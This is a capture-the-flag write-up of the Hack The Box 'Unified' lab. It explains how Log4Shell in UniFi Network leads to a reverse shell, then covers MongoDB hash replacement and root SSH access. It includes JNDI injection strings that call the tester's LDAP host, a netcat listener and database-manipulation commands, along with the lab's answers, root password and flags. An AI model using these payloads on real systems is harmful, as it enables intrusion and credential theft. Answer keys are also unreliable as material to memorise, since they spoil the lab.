# HTB — Unified (Starting Point Tier 2)
**Date:** June 22, 2026
**Difficulty:** Easy
**OS:** Linux

## Tasks
* **Task 1:** Which are the first four open ports? **22,6789,8080,8443**
* **Task 2:** What is the title of the software that is running on port 8443? **UniFi Network**
* **Task 3:** What is the version of the software that is running? **6.4.54**
* **Task 4:** What is the CVE for the identified vulnerability? **CVE-2021-44228**
* **Task 5:** What protocol does JNDI leverage in the injection? **LDAP**
* **Task 6:** What tool do we use to intercept the traffic, indicating the attack was successful? **tcpdump**
* **Task 7:** What port do we need to inspect intercepted traffic for? **389**
* **Task 9:** What port is the MongoDB service running on? **27117**
* **Task 10:** What is the default database name for UniFi applications? **ace**
* **Task 11:** What is the function we use to enumerate users within the database in MongoDB? **db.admin.find()**
* **Task 12:** What is the function we use to update users within the database in MongoDB? **db.admin.update()**
* **Task 13:** What is the password for the root user? **NotACrackablePassword4U2022**

## Objective
Exploit the Log4Shell vulnerability (CVE-2021-44228) in the UniFi Network application to achieve initial Remote Code Execution (RCE). Once on the system, enumerate internal services to discover a locally bound MongoDB instance. Manipulate the `ace` database to replace the administrator's password hash, granting full access to the UniFi admin panel. Leverage this access to extract plaintext SSH credentials and escalate privileges to root.

## Tools Used
- nmap
- Burp Suite (Proxy)
- tcpdump
- Java & Maven (Exploit Compilation)
- Rogue-JNDI (Log4j Exploit Payload)
- mongo (MongoDB CLI client)
- netcat (nc)

## Methodology
1. Ran `nmap` to discover open ports → found ports 22, 6789, 8080, and 8443.
2. Identified UniFi Network version 6.4.54 running on port 8443, which is vulnerable to Log4Shell (CVE-2021-44228).
3. Intercepted a login request using Burp Suite and injected a JNDI LDAP payload to test code execution capabilities.
4. Used `tcpdump` to monitor port 389, verifying the target reached out to our rogue LDAP server.
5. Installed OpenJDK 11 and Maven to build the Rogue-JNDI payload generator.
6. Cloned and compiled the Rogue-JNDI repository.
7. Generated a base64-encoded bash reverse shell and hosted it using Rogue-JNDI.
8. Sent the final JNDI payload pointing to the `o=tomcat` endpoint via Burp Suite and caught the shell with netcat.
9. Enumerated the system to find a local MongoDB instance running on port 27117.
10. Interacted with the `ace` database to extract the `administrator` hash and replaced it with a known hash.
11. Logged into the UniFi Network admin panel and extracted the root SSH password from the device settings.
12. SSH'd into the machine as root to capture the final flag.

## Step-by-Step

**Step 1: Enumeration**
An Nmap scan against the target reveals several open ports, including 22 (SSH), 8080 (HTTP/Tomcat), and 8443 (SSL/UniFi Network).



**Step 2: Web Reconnaissance**
Navigating to port 8443 takes us to the UniFi Network login portal. The software version (6.4.54) is listed, which is a known version vulnerable to Log4Shell.




**Step 3: Intercepting Traffic**
We configure Burp Suite to intercept traffic and attempt a login with dummy credentials (`admin:admin`). We capture the POST request to `/api/login`.



**Step 4: Payload Injection (Log4Shell)**
We inject a basic JNDI lookup string `${jndi:ldap://10.10.14.105/test}` into the `remember` parameter to test if the server is vulnerable to LDAP injection.



**Step 5: Verifying Code Execution**
Listening on our Kali machine with `sudo tcpdump -i tun0 port 389`, we immediately see the target IP reaching back to us after sending the payload. This confirms the vulnerability.



**Step 6: Setting Up the Exploit Environment**
To deploy a full reverse shell, we install OpenJDK 11 and Maven (`sudo apt install openjdk-11-jdk -y` and `sudo apt-get install maven`).





**Step 7: Compiling Rogue-JNDI**
We clone the Rogue-JNDI repository from GitHub and build the package using `mvn package`. This tool will stand up a malicious LDAP server to serve our payload.



**Step 8: Generating the Payload**
We create a base64-encoded bash reverse shell payload and pass it to Rogue-JNDI. We run the compiled jar file, specifying our command and our Kali VPN IP (`10.10.14.105`).



*Note: When Rogue-JNDI starts, it outputs several endpoints. The server running Tomcat requires the specific payload path `ldap://10.10.14.105:1389/o=tomcat` to execute properly.*

**Step 9: Triggering the Reverse Shell**
We return to Burp Suite and update our Log4j injection payload to point to the correct endpoint generated by our Rogue-JNDI server: `${jndi:ldap://10.10.14.105:1389/o=tomcat}`. We forward this request to the server. *(Screenshot omitted)*

**Step 10: Catching the Shell**
Before sending the modified Burp request, we set up a netcat listener on port 1337 (`nc -nvlp 1337`). We catch the connection and obtain a shell as the `unifi` user.




**Step 11: User Flag**
We navigate to `/home/michael` and read the user flag.



**Step 12: Internal Enumeration (MongoDB)**
Running `ps aux | grep mongo` reveals that a MongoDB instance is running locally on port 27117.



**Step 13: Dumping Admin Hashes**
We interact with the MongoDB instance using the `mongo` command-line tool. By querying the `ace` database (the default for UniFi), we can dump the administrator details: `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`. This exposes the `x_shadow` password hash.



**Step 14: Hash Replacement**
Since the hash might be uncrackable, we can simply replace it. Using a known hash (like a SHA-512 hash generated for the word "password"), we use the `db.admin.update()` function to overwrite the `x_shadow` value for the administrator account.



**Step 15: Admin Panel Access**
With the password successfully changed, we browse back to the UniFi web interface on port 8443 and log in using the username `administrator` and our newly set password.



**Step 16: Extracting Root Credentials**
Inside the UniFi dashboard, we navigate to Settings > Site > Device Authentication. Here, the "SSH Authentication" feature reveals the plaintext password for the `root` user: `NotACrackablePassword4U2022`.



**Step 17: Root Flag**
With the root password in hand, we can SSH directly into the target machine (`ssh root@10.129.96.149`). Once authenticated, we navigate to the root directory to retrieve the final root flag.



## Key Learning
Log4Shell (CVE-2021-44228) allows for trivial, unauthenticated Remote Code Execution by injecting JNDI lookup strings into parameters that are logged by the application. Once an attacker establishes a foothold, local unauthenticated services (like MongoDB bound to `127.0.0.1`) can be leveraged to compromise application integrity. In this case, altering the database allowed access to the web administration panel, which unfortunately stored infrastructure passwords in a recoverable format, leading to complete system compromise.

## Flags
**User Flag:** `6ced1a6a89e666c0620cdb10262ba127`
**Root Flag:** `e50bc93c75b634e4b272d2f771c33681`